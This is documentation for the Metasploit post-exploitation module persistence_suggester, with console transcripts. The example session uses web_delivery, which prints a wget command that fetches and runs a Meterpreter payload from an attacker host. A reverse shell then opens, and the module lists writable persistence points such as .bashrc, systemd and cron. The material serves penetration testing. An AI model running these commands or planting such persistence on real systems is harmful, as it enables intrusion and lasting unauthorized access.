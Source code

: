 ## Vulnerable Application

This module suggests persistence modules that can be used.
The modules are suggested based on the architecture and platform
that the user has a shell opened as well as the available exploits
in meterpreter.
It's important to note that not all modules will be checked.
Exploits are chosen based on these conditions: session type,
platform, architecture, and required default options.

## Verification Steps

1. Start msfconsole
2. Get a shell/meterpreter on a box
3. Do: `use post/multi/recon/persistence_suggester`
4. Do: `set session #`
5. Do: `run`
6. You should get information about which persistence modules will work.

## Options

### ValidateArch

This option lets us toggle whether or not a mismatch in session and module architecture should be validated or ignored.

### ValidatePlatform

This option lets us toggle whether or not a mismatch in session and module platform should be validated or ignored.

### ValidateMeterpreterCommands

This option lets us toggle whether or not Meterpreter commands that are missing from the current Meterpreter implementation should be validated or ignored.

### Colors

Similar to the option used for `HttpTrace`. This lets us change the colors used to show valid, invalid and ignored options or incompatibilities. Unsetting this option results in no colored output.
Defaults to `grn/red/blu`. Additional options are [here](https://github.com/rapid7/rex-text/blob/a72151d409cd812978f63ad0c330efbc8f44b977/lib/rex/text/color.rb#L13)

## Scenarios

### Ubuntu 24.04 User Shell

#### User Shell

```
└─$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (/root/.msf4/msfconsole.rc)> setg payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set srvport 8082
srvport => 8082
resource (/root/.msf4/msfconsole.rc)> set uripath l
uripath => l
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4446
lport => 4446
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4446 
[*] Using URL: http://1.1.1.1:8082/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO fTSGK2Dy --no-check-certificate http://1.1.1.1:8082/l; chmod +x fTSGK2Dy; ./fTSGK2Dy& disown
msf exploit(multi/script/web_delivery) > 
[*] 2.2.2.2    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4446 -> 2.2.2.2:34530) at 2025-09-23 16:35:57 -0400

msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 24.04 (Linux 6.8.0-31-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: ubuntu
meterpreter > background
[*] Backgrounding session 1...
```

#### Persistence Suggester

```
msf exploit(multi/script/web_delivery) > use post/multi/recon/persistence_suggester 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf post(multi/recon/persistence_suggester) > set session 1
session => 1
msf post(multi/recon/persistence_suggester) > exploit
[*] 2.2.2.2 - Collecting persistence modules for x64/linux...
[*] 2.2.2.2 - The following 15 exploit checks are being tried:
[*] 2.2.2.2 - exploit/linux/persistence/apt_package_manager
[*] 2.2.2.2 - exploit/linux/persistence/autostart
[*] 2.2.2.2 - exploit/linux/persistence/bash_profile
[*] 2.2.2.2 - exploit/linux/persistence/docker_image
[*] 2.2.2.2 - exploit/linux/persistence/init_openrc
[*] 2.2.2.2 - exploit/linux/persistence/init_systemd
[*] 2.2.2.2 - exploit/linux/persistence/kate_plugin
[*] 2.2.2.2 - exploit/linux/persistence/motd
[*] 2.2.2.2 - exploit/linux/persistence/rc_local
[*] 2.2.2.2 - exploit/linux/persistence/yum_package_manager
[*] 2.2.2.2 - exploit/multi/persistence/at
[*] 2.2.2.2 - exploit/multi/persistence/cron
[*] 2.2.2.2 - exploit/multi/persistence/joplin_plugin
[*] 2.2.2.2 - exploit/multi/persistence/obsidian_plugin
[*] 2.2.2.2 - exploit/windows/persistence/image_exec_options
[*] 2.2.2.2 - exploit/linux/persistence/apt_package_manager: The target is not exploitable. /etc/apt/apt.conf.d/ not writable
[*] 2.2.2.2 - exploit/linux/persistence/autostart: The target is not exploitable. Xorg is not installed, likely a server install. Autostart requires a graphical environment
[+] 2.2.2.2 - exploit/linux/persistence/bash_profile: The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] 2.2.2.2 - exploit/linux/persistence/docker_image: The target is not exploitable. docker is required
[*] 2.2.2.2 - exploit/linux/persistence/init_openrc: The target is not exploitable. /etc/init.d/ isnt writable
[+] 2.2.2.2 - exploit/linux/persistence/init_systemd: The target appears to be vulnerable. /tmp/ is writable and system is systemd based
[*] 2.2.2.2 - exploit/linux/persistence/kate_plugin: The target is not exploitable. Kate not found
[*] 2.2.2.2 - exploit/linux/persistence/motd: The target is not exploitable. /etc/update-motd.d/ is not writable
[*] 2.2.2.2 - exploit/linux/persistence/rc_local: The target is not exploitable. /etc/ isnt writable
[*] 2.2.2.2 - exploit/linux/persistence/yum_package_manager: The target is not exploitable. /usr/local/bin/ not writable
[*] 2.2.2.2 - exploit/multi/persistence/at: The target is not exploitable.  does not exist
[+] 2.2.2.2 - exploit/multi/persistence/cron: The target appears to be vulnerable. Cron timing is valid, no cron.deny entries found
[*] 2.2.2.2 - exploit/multi/persistence/obsidian_plugin: The target is not exploitable. No vaults found

[*] 2.2.2.2 - Valid modules for session 1:
============================

 #   Name                                           Potentially Vulnerable?  Check Result
 -   ----                                           -----------------------  ------------
 1   exploit/linux/persistence/bash_profile         Yes                      The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
 2   exploit/linux/persistence/init_systemd         Yes                      The target appears to be vulnerable. /tmp/ is writable and system is systemd based
 3   exploit/multi/persistence/cron                 Yes                      The target appears to be vulnerable. Cron timing is valid, no cron.deny entries found
 4   exploit/linux/persistence/apt_package_manager  No                       The target is not exploitable. /etc/apt/apt.conf.d/ not writable
 5   exploit/linux/persistence/autostart            No                       The target is not exploitable. Xorg is not installed, likely a server install. Autostart requires a graphical environment
 6   exploit/linux/persistence/docker_image         No                       The target is not exploitable. docker is required
 7   exploit/linux/persistence/init_openrc          No                       The target is not exploitable. /etc/init.d/ isnt writable
 8   exploit/linux/persistence/kate_plugin          No                       The target is not exploitable. Kate not found
 9   exploit/linux/persistence/motd                 No                       The target is not exploitable. /etc/update-motd.d/ is not writable
 10  exploit/linux/persistence/rc_local             No                       The target is not exploitable. /etc/ isnt writable
 11  exploit/linux/persistence/yum_package_manager  No                       The target is not exploitable. /usr/local/bin/ not writable
 12  exploit/multi/persistence/at                   No                       The target is not exploitable.  does not exist
 13  exploit/multi/persistence/obsidian_plugin      No                       The target is not exploitable. No vaults found


[*] 2.2.2.2 - Current Session Info:
[*] 2.2.2.2 -   Session Type: meterpreter
[*] 2.2.2.2 -   Architecture: x64
[*] 2.2.2.2 -   Platform: linux
[*] 2.2.2.2 - Incompatible modules for session 1:
===================================

 #  Name                                            Reasons                                                                  Platform  Architecture              Session Type
 -  ----                                            -------                                                                  --------  ------------              ------------
 1  exploit/multi/persistence/joplin_plugin         Not Compatible (platform)                                                Unix      cmd                       meterpreter, shell
 2  exploit/windows/persistence/image_exec_options  Missing required module options (IMAGE_FILE). Not Compatible (platform)  Windows   No defined architectures  meterpreter

[*] Post module execution completed
msf post(multi/recon/persistence_suggester) > notes

Notes
=====

 Time                     Host           Service  Port  Protocol  Type                          Data
 ----                     ----           -------  ----  --------  ----                          ----
 2025-09-23 20:29:52 UTC  2.2.2.2                                 persistence.suggested_module  {"exploit/linux/persistence/bash_profile"=>"The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc",
                                                                                                "exploit/linux/persistence/init_systemd"=>"The target appears to be vulnerable. /tmp/ is writable and system is systemd based",
                                                                                                "exploit/multi/persistence/cron"=>"The target appears to be vulnerable. Cron timing is valid, no cron.deny entries found"}
 2025-09-23 20:35:56 UTC  2.2.2.2                                 host.os.session_fingerprint   {:name=>"2.2.2.2", :os=>"Ubuntu 24.04 (Linux 6.8.0-31-generic)", :arch=>"x64"}
```